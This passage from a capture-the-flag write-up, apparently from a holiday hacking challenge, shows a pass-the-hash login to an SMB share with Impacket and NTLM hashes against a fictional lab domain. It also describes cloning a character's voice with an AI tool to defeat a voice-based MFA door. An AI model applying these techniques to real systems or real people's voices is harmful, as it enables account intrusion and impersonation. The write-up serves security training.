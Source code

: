 Then use `smbclient.py` to use that hash and auth to the share:
```
alabaster@ssh-server-vm:~$ smbclient.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# ls
[-] No share selected
```

Mget the file in the directory!
```
alabaster@ssh-server-vm:~$ cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```

# Space Island Door Access Speaker
## Hint
MFA: Something you Know: Wombley says a specific phrase into the Access Speaker. He works in the Research Department and everything they do it super secret, so it may be a challenge to find out what the phrase is. Ribb also works in that department. Try to find and ask him. Ribb Bonbowford over at Coggoggle Marina on Steampunk Island may know.

He wants me to check on Alabaster Snowball at Rainraster Cliffs on Pixel Island though first. Basically, do Certificate SSHenanigans first.

It seems the Access Speaker is programmed to only accept Wombley's voice. Maybe you could get a sample of his voice and use an AI tool to simulate Wombley speaking the passphrase.


## Objective
Upload a .wav file containing a voice saying a specific word and open this door on Space Island.
## Progress
Have the passphrase from the AD challenge, but it turns out that’s not enough. There is MFA: something you “are”. I have to “become” Wombley.

Try searching for another AI tool that can simulate voices. Use the audiobook I downloaded to the train the AI.

Used PlayHT, free account. 

Recorded the spoofed voice and uploaded it to the door. There was a small server-side issue that prevented me from completing this for a bit, but it was resolved.
